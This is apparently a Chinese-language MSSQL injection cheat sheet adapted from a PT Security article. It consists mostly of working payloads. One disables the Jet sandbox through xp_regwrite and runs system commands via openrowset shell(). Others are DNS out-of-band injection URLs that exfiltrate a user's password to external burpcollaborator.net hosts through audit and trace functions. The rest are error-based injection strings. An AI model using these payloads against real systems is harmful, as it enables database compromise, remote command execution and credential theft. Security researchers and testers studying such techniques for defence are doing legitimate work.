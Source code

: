 沙盒提权的原理就是jet.oledb（修改注册表）执行系统命令。数据库通过查询方式调用mdb文件，执行参数，绕过系统本身自己的执行命令，实现mdb文件执行命令

```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0/关闭沙盒

select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
```
# Some Tricks

[原文](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
Payloads Test On MSSQL 2019、2017、2016SP2。

##  11. <a name='DNS'></a>DNS带外
`fn_xe_file_target_read_file()`,`fn_get_audit_file()`, `fn_trace_gettable()`

###  11.1. <a name='fn_xe_file_target_read_file'></a>fn_xe_file_target_read_file()

`https://vuln.app/getItem?id= 1+and+exists(select+*+from+fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null))`
**权限**：在服务器上需要“VIEW SERVER STATE”权限。

###  11.2. <a name='fn_get_audit_file'></a>fn_get_audit_file()
`https://vuln.app/getItem?id= 1%2b(select+1+where+exists(select+*+from+fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)))`
**权限**：需要CONTROL SERVER权限
###  11.3. <a name='fn_trace_gettable'></a>fn_trace_gettable()
`https://vuln.app/getItem?id=1+and+exists(select+*+from+fn_trace_gettable('\\'%2b(select+pass+from+users+where+id=1)%2b'.ng71njg8a4bsdjdw15mbni8m4da6yv.burpcollaborator.net\1.trc',default))`
**权限**：需要CONTROL SERVER权限

##  12. <a name='-1'></a>替换报错表达式

以下函数会触发类型错误
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()
ORI:`https://vuln.app/getItem?id=1'+AND+1=@@version--`
New:`https://vuln.app/getItem?id=1'%2buser_name(@@version)--`
